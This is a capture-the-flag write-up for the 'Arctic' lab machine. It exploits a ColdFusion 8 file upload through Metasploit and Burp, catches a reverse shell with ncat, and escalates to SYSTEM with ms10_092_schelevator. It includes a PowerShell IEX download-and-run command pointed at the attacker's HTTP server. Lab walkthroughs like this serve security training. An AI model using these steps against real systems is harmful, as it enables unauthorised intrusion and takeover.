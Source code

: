 # Arctic Box Write-Up
### Date Completed: 08 January 2019
### Difficulty: Easy
### IP: 10.10.10.11
### OS: Windows

### Enumeration with Nmap:
![nmap](/img/arctic/nmap.png)
* -sV : enumerate versions
* -sC : run safe scripts
* -Pn : skip host discovery

* Port 8500 is the default port for Adobe Cold Fusion.

![coldfusion page](/img/arctic/coldfusion.png)
* When navigating to port 8500 on a web browser, there is an interesting page in the /CFIDE/administrator directory. They are running Coldfusion v8. 

### Exploitation:
![exploit search](/img/arctic/exploit_search.png)
* Use searchsploit to locate possible exploits.
* There's a Metasploit module for an arbitrary file upload exploit.

![msfconsole1](/img/arctic/msfconsole1.png)
* Pull up the Metasploit Framework, and do a search for coldfusion.
* Use the module found in searchsploit.
* Set rhost to 10.10.10.11 and rport to 8500. 
* Exploit.

![msfconsole2](/img/arctic/msfconsole2.png)
* The exploit failed because of the server's long response time, so there is a little extra work to be done. 

![burpsuite1](/img/arctic/burp1.png)
* Open up Burpsuite and navigate to the proxy options tab.

![burpsuite2](/img/arctic/burp2.png)
* Add a listener for port 8500 and loop back only option to redirect to 10.10.10.11 and port 8500.

![test](/img/arctic/test.png)
* Browse to localhost:8500 to test the listener in a web browser. If intercept is on in Burp, make sure to forward the request.

![exploit2](/img/arctic/exploit2.png)
* Go back to Metasploit and set rhost to 127.0.0.1 and exploit (Make sure intercept is on in Burp).
![exploit3](/images/arctic/exploit3)
* Go to Burp and copy the POST request on the Proxy/intercept tab to the repeater tab on the request side.
* Drop the POST request from the Proxy/intercept tab.

![repeater](/img/arctic/repeater.png)
* Hit go on the Repeater tab and send it to 10.10.10.11 port 8500.
* There should be a 200 reponse in the response section along with the directory it uploaded the payload to. 

![listener](/img/arctic/listener.png)
* Start a ncat listener on port 4444 to catch the shell the callback the payload will generate. 
** l : listen
** n : no DNS
** v : verbose output
** p : port

![navigate](/img/arctic/navigate.png)
* Navigate to the payload page whose directory was shown in the Burp Repeater/response page.

![shell](/img/arctic/shell.png)
* There's a shell! 
* If something isn't working, make sure Burp isn't intercepting. 

### Upgrade Shell to Meterpreter with Unicorn (https://github.com/trustedsec/unicorn):
![unicorn](/img/arctic/unicorn.png)
* Follow the above syntax substituting Unicorn's directory and the IP of the attack box and a random high port. 

![restart](/img/arctic/restart.png) 
* Restart the Metasploit Framework using the options generated by Unicorn.
* cat the powershell_attack.txt file that Unicorn generated and copy it to the clipboard (make sure to avoid any extra spaces at the end or beginning).
* Use vi to create exploit.html and paste the powershell into it.
* Start a simple HTTP server on the attack machine using python in the directory where exploit.html is located (python -m SimpleHTTPServer).

![download](/img/arctic/download.png)
* In the shell on the target machine, run the following command in powershell to download and run the shellcode:
** powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/exploit.html')"
*** make sure to use the IP of the attack station and shellcode filename in the URL.
** There should be a GET request on your HTTP server in a few seconds.
* Switch to your Metasploit console, and it should indicate it's sending the encoded stager. If it sits for awhile, you can hit enter and use the sessions command to make sure your session was generated (to interact with it use 'sessions -i <session #>).
* Now we have a user level Meterpreter shell!

### Privesc
![suggester1](/img/arctic/suggester1.png)
* Use the local exploit suggester to check for any possible local privesc exploits. 

![suggester2](/img/arctic/suggester2.png)
* Since Meterpreter is currently running as a 32 bit process, you need to migrate to a 64 bit process, run the suggester again, and then use the exploit which works for 32 and 64 bit. 
** Interact with the Meterpreter session, list the processes with 'ps', migrate to a stable x64 process with 'migrate <PID>'.
* Follow the previous steps to run the suggester again.

![suggester_both](/img/arctic/suggester_both.png)
* ms10_092_schelevator is the only exploit which works on 32 and 64 bit, so use that one.
* Use ms10_092_schelevator and set the session to your Meterpreter session number.
* Throw the 'sploit!
** If it doesn't generate the session, check and make sure it starts the listener on your VPN IP and not your attack station's local IP. If it did, simply set lhost to your VPN IP. 

### Datamining:
![system](/img/arctic/system.png)
* Use the SYSTEM Meterpreter session to get the user and root flags.




